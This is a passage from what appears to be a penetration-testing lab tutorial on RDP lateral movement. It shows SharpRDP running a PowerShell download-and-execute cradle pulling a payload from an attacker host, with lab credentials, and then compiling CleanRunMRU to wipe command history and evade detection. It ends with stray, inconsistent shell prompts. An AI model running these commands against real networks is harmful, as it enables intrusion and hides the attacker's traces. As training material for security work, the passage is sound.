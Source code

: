 Now we can use `SharpRDP` to execute a powershell command to execute our payload and provide a session:

```powershell
PS C:\Tools> .\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\helen password=RedRiot88
[+] Connected to          :  srv01
[+] Execution priv type   :  non-elevated
[+] Executing powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.207/s')
[+] Disconnecting from    :  srv01
[+] Connection closed     :  srv01

```

**Note:** The execution of commands of `SharpRDP` is limited to 259 characters.

`SharpRDP` uses Microsoft run to execute commands, we can use [CleanRunMRU](https://github.com/0xthirteen/CleanRunMRU) to clean all command records. To compile the tool we can use the built-in Microsoft [csc](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/) compiler tool. Let's first transfer CleanRunMRU's `Program.cs` file from our attack host into the target computer:

```powershell
PS C:\Tools> wget -Uri http://10.10.14.207/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs

```

Now we can use `csc.exe` to compile it:

```powershell
PS C:\Tools> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs
Microsoft (R) Visual C# Compiler version 4.7.3190.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

```

Now we can use `CleanRunMRU.exe` to clear all commands:

```powershell
PS C:\Tools> .\CleanRunMRU.exe  clearall
HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
[+] Cleaned all RunMRU values

```

## Advantages of RDP for Lateral Movement

RDP provides several advantages for lateral movement, making it a preferred method for attackers in certain scenarios. Some of the key advantages include:

- `Evade Detection`: RDP traffic is common in business environments, making it less likely to raise suspicion.
- `Non-Admin Access`: RDP access does not necessarily require administrative rights; a non-admin user can also have RDP access.
- `Persistent Access`: Once a foothold is established, RDP can provide persistent access to the network.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>